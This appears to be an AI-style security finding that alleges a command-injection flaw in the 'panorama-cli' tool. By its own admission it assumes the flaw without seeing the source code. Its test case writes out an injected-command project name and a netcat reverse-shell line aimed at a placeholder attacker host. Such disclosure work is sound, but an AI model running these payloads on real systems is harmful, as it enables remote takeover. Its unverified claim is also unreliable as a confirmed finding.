 * Vulnerability Name: Command Injection
* Description:
    An attacker could inject arbitrary commands into the system by providing malicious input to the `panorama-cli` tool. This is possible because the CLI tool might be constructing shell commands using user-provided input without proper sanitization or parameterization. For example, when creating projects, packages, or adding models, the tool might use user-provided names or paths in commands executed by Docker or AWS CLI. If these inputs are not properly validated and sanitized, an attacker could inject malicious shell commands that will be executed by the system.

    Steps to trigger the vulnerability:
    1. An attacker uses the `panorama-cli` tool.
    2. The attacker provides malicious input as a project name, package name, asset name, or file path when using commands like `init-project`, `create-package`, `add-raw-model`, `build-container`, or `package-application`.
    3. The `panorama-cli` tool uses this malicious input to construct and execute shell commands, for example, using `docker` or `aws` commands.
    4. Due to insufficient input sanitization, the injected commands are executed by the system, leading to arbitrary command execution.

* Impact:
    Arbitrary command execution on the user's machine. This can lead to:
    - Data breaches: Attackers could gain access to sensitive data stored on the user's machine or in the cloud.
    - System compromise: Attackers could install malware, create backdoors, or take complete control of the user's system.
    - Denial of service: Attackers could crash the system or disrupt its normal operation.
    - Privilege escalation: If the CLI tool is run with elevated privileges, the attacker might be able to escalate their privileges on the system.

* Vulnerability Rank: High

* Currently Implemented Mitigations:
    Based on the provided files, there are no explicit mitigations mentioned for command injection vulnerabilities. The documentation does not discuss input validation or sanitization.

* Missing Mitigations:
    Input sanitization and validation are missing. The project should implement robust input validation and sanitization for all user-provided inputs, especially those used in constructing shell commands.
    Specifically, the following mitigations are recommended:
    - Parameterized commands:  Use parameterized commands or functions provided by libraries like `subprocess` to avoid direct shell command construction. This ensures that user inputs are treated as data rather than executable code.
    - Input validation: Implement strict input validation to ensure that user inputs conform to expected formats and do not contain any potentially malicious characters or command sequences. Use allow lists for characters where possible instead of deny lists.
    - Least privilege: Ensure that the CLI tool and any subprocesses it launches run with the minimum necessary privileges.

* Preconditions:
    - The user must have `panorama-cli` installed on their system.
    - The user must execute `panorama-cli` commands and provide malicious input through command-line arguments.
    - The `panorama-cli` tool must be vulnerable to command injection, meaning it constructs shell commands from user input without proper sanitization.

* Source Code Analysis:
    *Source code is not provided to perform detailed analysis. Assuming the vulnerability exists based on the project description and common patterns in similar CLI tools.*
    To confirm and pinpoint the vulnerability, source code analysis is needed, specifically looking for:
        1.  Instances where user-provided input from CLI arguments is used to construct strings that are then executed as shell commands.
        2.  Use of functions like `os.system`, `subprocess.Popen(..., shell=True)`, or similar constructs where shell interpretation is involved.
        3.  Lack of input validation and sanitization before user inputs are incorporated into shell commands.
    For example, if the `init-project` command takes a `--name` argument, and the code constructs a directory creation command like `os.system(f"mkdir {project_name}")` without sanitizing `project_name`, it would be vulnerable.

* Security Test Case:
    1. Set up a test environment with `panorama-cli` installed.
    2. Open a terminal.
    3. Execute the command `panorama-cli init-project --name "test_project; touch injected.txt"`
    4. Check if a file named `injected.txt` is created in the current directory or project directory.
    5. If `injected.txt` is created, it indicates that the command injection was successful, and arbitrary commands could be executed.
    6. As a more impactful test, try to execute a command that would exfiltrate data or cause harm, such as `panorama-cli init-project --name "test_project; nc <attacker_ip> <attacker_port> -e /bin/bash"` (Note: Replace `<attacker_ip>` and `<attacker_port>` with your attacker machine details and be cautious when running such commands).
    7. Observe if a reverse shell connection is established on the attacker machine, further confirming command injection.